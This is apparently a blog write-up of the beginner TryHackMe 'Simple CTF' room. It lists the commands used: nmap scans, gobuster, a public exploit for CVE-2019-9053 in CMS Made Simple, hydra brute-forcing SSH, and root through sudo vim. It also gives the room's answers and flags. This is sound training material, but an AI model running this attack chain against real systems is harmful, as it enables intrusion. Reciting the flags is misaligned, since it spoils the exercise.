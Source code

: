 ```yaml
---
author: Chance Johnson
description: A beginner friendly CTF by MrSeth6797 on TryHackMe.
layout: post
title: Simple CTF
---
```

[Simple CTF](https://tryhackme.com/room/easyctf) is a beginner friendly CTF on TryHackMe by MrSeth6797. I will be using Kali Linux.

# 1. How many services are running under port 1000?
I executed the following Nmap command to scan for both UDP and TCP services on this port:
```
sudo nmap -sS -sU -p1000 10.10.214.207
```

This tells me the following two services are running:
```
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

**Answer**: 2

### 2. What is running on the higher port?
[By default, Nmap scans the top 1,000 ports](By default, Nmap scans the top 1,000 ports for each scan protocol requested.), so there's a good chance the following command will tell me which service is listening to the highest port number:
```
nmap 10.10.214.207
```

Output:
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

The scan tells us an [EtherNet/IP](https://en.wikipedia.org/wiki/EtherNet/IP) service is listening on `2222/tcp`. Nmap uses its [`nmap-services`](https://nmap.org/book/nmap-services.html) database to determine which services correspond to which port numbers. As you probably already know, applications can be configured to listen to any desired port number. Therefore, this information is not always reliable.

I'll investigate further with a version detection scan:
```
nmap -sV -p2222 10.10.214.207
```

Output:
```
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An Nmap [version detection](https://nmap.org/book/man-version-detection.html) scan uses the [`nmap-service-probes`](https://nmap.org/book/nmap-service-probes.html) database to determine what program is listening on a port. As you can see in the output above, Nmap has determined that an SSH server is listening on that port.

**Answer**: ssh

# 3. What's the CVE you're using against the application?
At first, I used the Nmap [vulners](https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse) script to list CVEs for the services listening on the open ports I had already discovered:
```
sudo nmap -sV -sS -sU -p21,80,2222,1000 --script=vulners 10.10.214.207
```

This produced an extensive list of CVEs, so I decided to go a different route and do some more enumeration.

I'll start by performing a version scan on `80/tcp`:
```
nmap -sV -p80 10.10.214.207
```

Output:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

It appears an Apache HTTP server is listening to this port, so I will use `gobuster` to find some common directories:
```
gobuster dir -u http://10.10.214.207/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were found:
```
/.htpasswd
/.hta
/.htaccess
/index.html
/robots.txt
/server-status
/simple
```

I opened up Firefox and navigated to `http://10.10.214.207/simple`. It appeared to be an installation page for [CMS Made Simple](https://www.cmsmadesimple.org/). At the bottom of the page there was a version number: `2.2.8`.

A Google search for `cms made simple 2.2.8 cve` lead me to [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053).

**Answer**: CVE-2019-9053

# 4. To what kind of vulnerability is the application vulnerable?
CVE-2019-9053 is recorded as an SQL injection vulnerability.

**Answer**: SQLi

# 5. What's the password?
I found [this](https://github.com/e-renna/CVE-2019-9053) Python script online for exploiting the CVE. Using this script, I ran the following command:
```
python3 exploit.py -u http://10.10.214.207/simple/
```

Output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

It would appear the found password is a hash of the original password and the salt. This isn't very useful, however it does list the username "mitch".

I'll attempt to login to that SSH server listening on `2222/tcp`:
```
hydra -s 2222 -l mitch -P /usr/share/wordlists/john.lst -t 4 10.10.214.207 ssh
```

The output of this command indicates the password is "secret". 

**Answer**: secret


# 6. Where can you login with the details obtained?
Obviously, the SSH server.

**Answer**: SSH

# 7. What's the user flag?
I logged into the SSH server with the newly found credentials, and found a "user.txt" file. The contents of the file read "G00d j0b, keep up!".

**Answer**: G00d j0b, keep up!

# 8. Is there any other user in the home directory? What's its name?
There was a directory named "sunbath" in the "/home" directory.

**Answer**: sunbath

# 9. What can you leverage to spawn a privileged shell?
I got stuck on this for a while. There weren't any more files in the user's home directory, and I wasn't able to perform many commands as sudo. I finally remembered to list which sudo commands can be performed:
```
sudo -l
```

Output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

It looks like I can use vim to run commands as the root user.

**Answer**: vim

# 10. What's the root flag?
I ran vim as sudo, and in vim I entered the following:
```
:!ls /root
```

This showed a `flag.txt` file. All that was left to do was print the contents of this file via vim:
```
:!cat /root/flag.txt
```

**Answer**: W3ll d0n3. You made it!


